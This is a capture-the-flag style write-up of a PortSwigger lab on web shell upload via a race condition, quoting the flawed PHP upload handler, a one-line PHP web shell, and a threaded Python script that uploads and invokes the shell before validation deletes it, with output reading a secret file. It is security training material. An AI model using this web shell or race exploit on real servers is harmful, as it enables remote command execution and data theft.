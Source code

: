 # Web shell upload via race condition

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-race-condition), you'll learn: Web shell upload via race condition! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★★★★☆☆☆☆☆☆

## Background

This lab contains a vulnerable image upload function. Although it performs robust validation on any files that are uploaded, it is possible to bypass this validation entirely by exploiting a race condition in the way it processes them.

To solve the lab, upload a basic PHP web shell, then use it to exfiltrate the contents of the file `/home/carlos/secret`. Submit this secret using the button provided in the lab banner.

You can log in to your own account using the following credentials: `wiener:peter`

## Exploitation

**Home page:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/File-Upload-Vulnerabilities/FUV-7/images/Pasted%20image%2020221216033346.png)

**Login as user `wiener`:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/File-Upload-Vulnerabilities/FUV-7/images/Pasted%20image%2020221216033400.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/File-Upload-Vulnerabilities/FUV-7/images/Pasted%20image%2020221216033418.png)

In previous labs, we found the image upload function is vulnerable.

**In the lab hint, it provides the image upload function PHP code:**
```php
<?php
$target_dir = "avatars/";
$target_file = $target_dir . $_FILES["avatar"]["name"];

// temporary move
move_uploaded_file($_FILES["avatar"]["tmp_name"], $target_file);

if (checkViruses($target_file) && checkFileType($target_file)) {
    echo "The file ". htmlspecialchars( $target_file). " has been uploaded.";
} else {
    unlink($target_file);
    echo "Sorry, there was an error uploading your file.";
    http_response_code(403);
}

function checkViruses($fileName) {
    // checking for viruses
    ...
}

function checkFileType($fileName) {
    $imageFileType = strtolower(pathinfo($fileName,PATHINFO_EXTENSION));
    if($imageFileType != "jpg" && $imageFileType != "png") {
        echo "Sorry, only JPG & PNG files are allowed\n";
        return false;
    } else {
        return true;
    }
}
?>
```

**Let's break it down:**

- When we upload a file, **it'll create a temporary file, which the uploaded one**
- After that, **it checks our file contains viruse or not**, and check the file type
	- Function `checkFileType($fileName)` checks the extension is `jpg` or `png`

Armed with above information, we can see that **it's vulnerable to race condition.**

**This is because after we uploaded a file, it's still exist temporary. Also, the `checkViruses` function should take some time to work!**

So, in theory, we can still execute any commands!

Let's try that!

**To do so, we need to:**

- Create a PHP web shell:

```
┌──(root🌸siunam)-[~/ctf/Portswigger-Labs/File-Upload-Vulnerabilities/FUV-7]
└─# echo "<?php system($_GET['cmd']); ?>" > webshell.php
```

**Then, to exploit race condition, I'll write a python script that continuously upload the PHP web shell:**
```py
#!/usr/bin/python3

import requests
from threading import Thread
from time import sleep
import argparse

def sendRequest(url, cookie, files, data):
    requests.post(url + 'my-account/avatar', cookies=cookie, files=files, data=data)

def receiveRequest(url, command):
    requestGET = requests.get(url + f'files/avatars/webshell.php?cmd={command}')

    if requestGET.status_code == 200 and requestGET.text != '':
        print(requestGET.text)

def main():
    url = 'https://0ad6002d040af2d7c0a5b8e200a9004e.web-security-academy.net/'

    cookie = {
        'session': 'YOUR_SESSIONID'
    }

    files = {
        'avatar': open('./webshell.php', 'rb')
    }

    data = {
        'user': 'wiener',
        'csrf': 'YOUR_CSRF_TOKEN'
    }

    # Create 200 jobs
    for job in range(200):
        Thread(target=sendRequest, args=(url, cookie, files, data)).start()
        Thread(target=receiveRequest, args=(url, args.command)).start()

if __name__ == '__main__':
    parser = argparse.ArgumentParser()
    parser.add_argument('-c', '--command', required=True, help='The command you want to execute.')
    args = parser.parse_args()

    main()
```

```
┌──(root🌸siunam)-[~/ctf/Portswigger-Labs/File-Upload-Vulnerabilities/FUV-7]
└─# python3 exploit.py -c id
uid=12002(carlos) gid=12002(carlos) groups=12002(carlos)
```

It worked!

**Finally, we can `cat` the `secret` file!**
```
┌──(root🌸siunam)-[~/ctf/Portswigger-Labs/File-Upload-Vulnerabilities/FUV-7]
└─# python3 exploit.py -c 'cat /home/carlos/secret'
fiLAg8UZ69fWjhobLxO4cy4q12RmCCbq
```

Nice!

# What we've learned:

1. Web shell upload via race condition
